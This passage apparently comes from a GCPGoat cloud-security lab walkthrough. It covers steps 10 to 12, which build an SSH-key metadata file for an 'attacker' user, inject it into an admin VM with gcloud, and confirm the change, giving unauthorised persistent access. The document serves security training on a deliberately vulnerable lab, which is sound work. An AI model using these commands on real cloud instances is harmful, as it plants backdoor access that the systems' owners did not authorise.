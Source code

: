 This creates a public key (key.pub) and private key (key) for a user named "attacker".

#### 10. Prepare Metadata Update File

We Create a metadata file with the new SSH key:

```bash

NEWKEY="$(cat ./key.pub)"

echo "attacker:$NEWKEY" > ./meta.txt

cat ./meta.txt  # Verify the contents

```
We store the public key in the **NEWKEY** variable and the we add the **USER:KEY** data to the **meta.txt** file.

![](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-12.png)


#### 11. Update the Admin VM's Metadata

Then, we add the SSH key to the admin VM's metadata, using the below command:  

```bash

gcloud compute instances add-metadata admin-vm --metadata-from-file ssh-keys=meta.txt

```  

![](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-13.png) 

This command will add the content of meta.txt in the ssh-keys section of the instance metadata.

If prompted, confirm the zone selection with **Y**. 

#### 12. Verify Metadata Update

We confirm that the metadata was successfully updated:
 

```bash

gcloud compute instances describe admin-vm --zone us-west1-c

```

![](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-14.png)